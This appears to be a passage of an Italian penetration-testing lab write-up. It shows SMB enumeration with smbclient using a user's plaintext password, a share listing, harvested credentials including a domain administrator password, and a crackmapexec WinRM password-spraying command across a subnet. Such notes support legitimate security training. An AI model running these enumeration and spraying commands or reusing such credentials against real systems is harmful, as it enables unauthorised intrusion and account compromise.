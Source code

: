 ```bash
Host script results:
|_nbstat: NetBIOS name: FILES, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:7d:93 (VMware)
|_clock-skew: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-26T14:41:10
|_  start_date: N/A
```

Accesso smb l'utente jim:

```bash
smbclient -N -L //172.16.156.21 -U relia.com/jim%Castello1\!
```

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        apps            Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        monitoring      Disk      
        scripts         Disk     
```

Analizzando i file trovo delle credenziali:

```bash
john.m:YouWillNeverTakeMyTractor!1922
administrator:vau!XCKjNQBv2$
```

IMPORTANTE: LA PASSWORD SCOPERTA QUI E' QUELLA DEL DOMAIN ADMIN CHE SERVE AD ACCEDERE (CON PERMESSI DA AMMINISTRATORE) A TANTISSIME MACCHINE PRESENTI SU QUESTO LAB:
- 6
- 7
- 21
- 30
- 189
- 191

Provo a verificare se queste credenziali possono essere utili ad accedere a qualche macchina:

La seconda coppia di credenziali serve per accedere in rdp alla macchina 14,15.

IMPORTANTE: IL GIORNO DOPO NON ANDAVA IN RDP ALLE MACCHINE 14 E 15 (già pwnate)

MA HO SCOPERTO ALTRO TRAMITE QUESTO COMANDO:

```bash
sudo crackmapexec winrm 172.16.165.0/24 -u domain_users.txt -p passwords.txt -d relia.com --continue-on-success | grep "[+]"
```
